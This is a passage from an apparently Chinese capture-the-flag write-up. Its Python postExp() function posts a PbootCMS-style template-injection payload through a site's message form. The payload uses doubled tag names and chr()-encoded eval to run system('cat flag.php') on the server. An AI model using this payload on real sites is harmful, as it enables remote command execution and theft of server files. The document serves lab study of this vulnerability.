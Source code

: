 ![check2_after_fix_221](../img/check2_after_fix_221.jpg)

#### BreakIt

##### Exp 设计

「postExp() 函数」将 flag 插入靶标环境，「getFlag() 函数」利用正则表达式找出所有以「flag=」开头的字符串，并根据网站留言特点获取到最新插入的 flag 。

```python
def postExp(url):
    post_data = {
        'contacts': '666',
        'mobile': '1008611',
        'content': '{pbootpbootpboot:if:if:if((eval ( chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr ('
                   '0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr '
                   '(0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr ('
                   '0x3b))))}!!!{/pbootpbootpboot:if:if:if} '
    }
    response = requests.post(url, data=post_data)
    if response.status_code == 200:
        print("Exp 插入成功")
        return True
    else:
        print("Exp 插入失败，请检查网站状态，response code=" + str(response.status_code))
        return False

```
